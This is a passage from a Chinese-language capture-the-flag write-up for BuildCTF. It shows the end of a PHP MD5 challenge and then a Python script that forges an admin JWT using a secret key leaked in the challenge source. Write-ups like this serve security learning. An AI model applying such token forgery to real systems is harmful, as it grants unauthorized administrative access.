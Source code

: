 ```php
}else die("不是吧这么简单的md5都过不去？");
?>
```

![19](/medias/buildCTF/19.png)

## sub

我个人python web了解并不多，可能有解读错的地方。

阅读源码，发现有几处敏感路由，如`login`,`page`路由，在源码里给了密钥，在login里给了jwt的加密方式，尝试伪造jwt的admin身份

```python
import jwt
import datetime

# 密钥
secret_key = 'BuildCTF'

payload = {
    'sub': 'admin',
    'role': 'admin',
    'exp': datetime.datetime.utcnow() + datetime.timedelta(minutes=30)
}

access_token = jwt.encode(payload, secret_key, algorithm='HS256')
print(f'伪造的 JWT: {access_token}')
```
